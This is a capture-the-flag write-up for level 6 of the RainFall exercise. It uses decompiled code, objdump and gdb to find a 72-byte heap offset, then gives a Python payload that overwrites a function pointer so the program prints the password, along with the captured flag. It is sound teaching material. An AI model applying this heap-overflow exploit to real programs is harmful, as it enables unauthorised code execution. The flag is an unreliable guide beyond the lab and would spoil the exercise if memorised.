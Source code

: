 ## Level6

You can find the decompiled level6 code [here](./level6_decomp.c).

There are several interesting parts in this decomp, first of all, two functions `m()` and `n()`. `m()` doesn't do much, but is used inside the main, and `n()` which cat the password.

We also noticed that it segfaults after 72 characters:
```bash
level6@RainFall:~$ ./level6 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrr
Segmentation fault (core dumped)
```

### Decomp analysis

```c
void main(undefined4 param_1,int param_2)
{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}
```

`__dest` is the adress of our first malloc and is used as the `strcpy()` destination buffer, this is the only influence we have on the program since this copies `argv[1]` to `__dest`.

The second important point is `ppcVar1`, which is also allocated with a size of 4. It's a pointer to function, in this case pointing to `m()`.

After the call to `strcpy()` it will execute the function pointed to by `ppcVar1`

## Exploit

Our goal is to change the address of the pointer to function, so that instead of executing `m()`, we can execute something else. In this case there is also another function: `n()` which prints the password.

### Finding the address of `n()`

We can use `objdump -d level6 | grep "<n>"` which will output: `08048454 <n>:`

### Finding both malloc return address

We need both the buffer and pointer to function address, we used `gdb` for that:

Using `disas main` will prompt us with the following:

```bash
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
```

To get the address of `__dest`, we will set a breakpoint after the first malloc and check its return address:

```bash
(gdb) b *main+21
Breakpoint 1 at 0x8048491
(gdb) r
Starting program: /home/user/level6/level6 

Breakpoint 1, 0x08048491 in main ()
(gdb) x $eax
0x804a008:	0x00000000
(gdb) 
```

So `__dest` is located at `0x804a008`.

We will do the same for `ppcVar1`:

```bash
(gdb) b *main+37
Breakpoint 1 at 0x80484a1
(gdb) r
Starting program: /home/user/level6/level6 hihi

Breakpoint 1, 0x080484a1 in main ()
(gdb) x $eax
0x804a050:	0x00000000
(gdb) 
```

`ppcVar1` is located at `0x804a050`

### Addr offset

We can now get the size we need to fill with our buffer:

```python
>>> print(int(0x804a050) - int(0x804a008))
72
```

## Payload

<details>
    <summary>Spoiler</summary>
Now that we have all of our variables, we can replace the address of `m()` by `n()`'s in `ppcVar1`. To do that we will fill the buffer and the remaining space that we calculated just above, then pass our new memory address:

`[72 filler] + [n() addr]`

`python -c "print'A' * 72 + '\x54\x84\x04\x08'"> /var/crash/pay.txt`

Since we need to pass our payload as an argument (previous exercises were mostly done using `fgets()`), we need to store the content of the file inside a shell variable as such:

`level6@RainFall:~$ file_args=$(</var/crash/pay.txt)`

We can then use this variable as an argument and get our flag:

```bash
level6@RainFall:~$ ./level6 $file_args 
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
</details>